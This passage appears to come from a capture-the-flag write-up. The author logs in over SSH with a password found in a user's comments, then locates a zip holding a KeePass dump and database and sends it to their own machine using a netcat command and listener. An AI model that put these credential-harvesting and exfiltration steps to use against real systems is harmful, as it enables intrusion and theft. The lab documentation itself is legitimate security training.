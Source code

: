 
Clicking on `lnorgaard` I get taken to a page with info about that user, and in the comments section is the initial password this user was given.

![password](Wed-29-2023_23-14.png)

I try these credentials for SSH, and get access!
### KeePass DB File
Once on the box, in `lnorgaard's` home folder, is a file called `RT30000.zip`. Looks interesting. I unzip it into `/dev/shm`. Inside are 2 files, `KeePassDumpFull.dmp` and  `passcodes.kdbx`. Both sound interesting. I exfil the `.zip` file back to my attack machine for further investigation.
```bash
# On remote machine
nc 10.10.15.34 9001 < RT30000.zip

# On my machine
nc -lvnp 9001 > RT3000.zip
```
Running `file` on `passcodes.kdbx`, I see that it's a Keepass 2.X database
```bash
file passcodes.kdbx                        
passcodes.kdbx: Keepass password database 2.x KDBX
```